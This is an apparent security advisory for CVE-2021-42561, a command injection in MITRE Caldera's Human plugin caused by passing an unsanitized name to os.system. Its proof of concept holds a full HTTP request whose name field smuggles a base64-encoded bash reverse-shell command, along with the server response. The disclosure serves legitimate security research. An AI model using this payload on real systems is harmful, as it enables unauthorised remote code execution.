



# CVE-2021-42561: Command Injection Via the Human Plugin in MITRE Caldera

In Caldera (versions <=2.8.1) the Human plugin passes the unsanitized name parameter to a python "os.system" function. This allow attackers to use shell metacharacters (E.g. backticks "``" or dollar parenthesis "$()" ) in order to escape the current command and execute arbitrary shell commands.
<br/>

### Software:

The MITRE Caldera software can be found [here](https://github.com/mitre/caldera).

### Requirements:

This vulnerability requires:
<br/>
- Valid user credentials

### Proof Of Concept:

In order to validate the presence of the vulnerability and to visualise it easier, a few python "print" functions have been inserted in the vulnerable python file "plugins/human/app/human_svc.py".



It can be observed that the name inserted via the web interface does not get sanitized and is passed directly to "os.system".
<br/>

The following HTTP request was used to obtain a reverse shell (in this case on port 5555 localhost).
<br/>

Request:
```
POST /plugin/human/api HTTP/1.1
Host: 192.168.243.180:8888
Content-Type: application/json
Content-Length: 261
Cookie: API_SESSION="gAAAAABflyHPOgBzo23QDlLIjKrH8HRnuAw0qAV1Fd1-OTOoGkREAdaqgPUUQUJHIB9R3aEa1YQjSJ3J4-HJ7VDYOTgBr68z9AiJGs98Ut_5bIyHDz5NDL4CllRLdb_nOM7eSVZAPlrC-vybuI3UyhSNTDJ67zJj-A=="

{"index":"build_human","platform":"linux","name":"$(bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNTU1NSAwPiYxCg==}|{base64,-d}|bash')","task_cluster_interval":"500","task_interval":"10","task_count":"5","tasks":["ExecuteCommand"],"extra":["anything"]}
```

Response:
```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 345
Date: Mon, 26 Oct 2020 19:35:59 GMT
Server: Python/3.6 aiohttp/3.6.2
Connection: close

{"name": "$(bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNTU1NSAwPiYxCg==}|{base64,-d}|bash')", "platform": "linux", "task_interval": "10", "task_cluster_interval": "500", "tasks_per_cluster": "5", "extra": ["anything"], "workflows": [{"name": "ExecuteCommand", "description": "Execute Custom Commands", "file": "execute_command.py"}]}
```

Result:



